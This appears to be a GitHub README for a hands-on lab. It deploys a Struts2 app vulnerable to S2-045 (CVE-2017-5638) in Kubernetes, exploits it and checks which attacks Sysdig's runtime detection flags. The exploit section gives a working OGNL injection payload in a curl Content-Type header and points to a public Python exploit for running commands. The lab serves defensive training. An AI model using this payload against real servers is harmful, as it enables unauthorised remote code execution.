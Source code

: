 # Vulnerable Struts2 (S2-045) Lab 🧪 🔬 

In this lab, you will deploy a Vulnerable Struts2 workload (S2-045 / CVE-2017-5638) in Kubernetes.

1. **Confirm** you can reach the vulnerable app.  
2. **Exploit** it using a simple malicious payload.  
3. **Observe** detection events in Sysdig Secure.

----------

## 1. Access the Struts2 Application 🤖 

-  Your environment can be deployed using the `setup_struts_deployment.sh` file and a pre-configured cluster hosting the Sysdig Detection Agent.  

-  The application will expose on **NodePort 30080**.  

-  Go to `http://localhost:30080` in a browser or use curl:
 
   curl -v http://localhost:30080

-  If properly configured - You should recieve a simple file upload form!

-----------

## 2. Exploit 🦠 

- **Trigger the RCE** by issuing and analyzing the output of: 

`curl -v -X POST -H "Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',668.5*2)}.multipart/form-data" http://localhost:30080`

- Alternatively you may use ExploitDB's python exploit @ `https://www.exploit-db.com/exploits/41570`
  Usage: `python2 <script> <url> <command>`

-----------

## 3. **Detection** 🔍 

- A clear distinction must be made here on how to detect this attack and the limitations posed with Run Time analysis.
- The curl command executes successfully returning **1337** in our custom header **"vulhub"**
- However, it will not be picked up in **Sysdig** as no process was spawned, no file was accessed, and no network anomalies were detected.
- On the otherhand, the python script does yield a **Medium** severity in Sysdig.
- In Sysdig: Navigate to "**Threats**" -->  "**Sysdig Runtime Notable Events**" --> **Event ID: 18191e49f34866df273474732a500c25**
- In short, a header injection will not trigger in Sysdig but a new system process such as 'cat' will.




